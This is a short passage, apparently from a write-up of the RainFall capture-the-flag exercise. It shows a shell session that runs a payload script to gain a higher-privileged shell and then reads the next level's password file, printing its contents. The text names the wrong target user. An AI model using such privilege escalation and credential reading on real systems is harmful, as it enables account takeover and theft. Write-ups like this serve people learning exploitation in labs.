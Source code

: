 Execute the payload.sh file to enter a shell as bonus0:

```sh
bonus3@RainFall:~$ /tmp/payload.sh 
$ whoami
end
$ cat /home/user/end/.pass
3321b6f81659f9a71c76616f606e4b50189cecfea611393d5d649f75e157353c
```